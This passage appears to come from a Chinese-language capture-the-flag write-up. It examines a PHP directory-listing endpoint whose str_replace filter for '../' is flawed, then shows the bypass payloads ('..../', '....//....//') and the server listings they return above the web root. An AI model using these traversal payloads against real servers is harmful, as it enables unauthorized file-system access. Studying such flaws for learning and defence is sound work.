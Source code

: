 如果搜索的字符串是数组，那么它将对数组中的每个元素进行查找和替换。

将file参数输入的数`../`或`..`替换为空。

所以`../../etc/passwd`，会替换为etc/passwd

#### dirRead.php
```
{"file":"<?php

if($_SERVER['REQUEST_METHOD'] === "POST"){
	if(isset($_POST['path'])){
		header('Content-type: application/json');
		$_POST['path'] = str_replace( array("../", "..""), "", $_POST['path']);
		echo json_encode(scandir("/var/www/html/" . $_POST['path']));
	}else{
		header('Content-type: application/json');
		echo '[false]';
	}
}
"}
```
scandir() 函数返回指定目录中的文件和目录的数组。

---

## 获取敏感信息
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-21/7.PNG)

```
path=./
path=
[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]

推测 /var/www/html/目录下有这些文件
于是访问http://10.10.10.87/background.jpg，成功验证。
--------------------------
path=./.list
[".","..","list1","list2"]
了解到/var/www/html/.list目录下后这些文件
---------------------
于是想要访问/var/www/，查看目录下有哪些文件
path=..../
[".","..","html","localhost"]
于是获得该目录有这两个文件。
-----------
path=....//....//
[".","..","cache","empty","lib","local","lock","log","opt","run","spool","tmp","www"]
```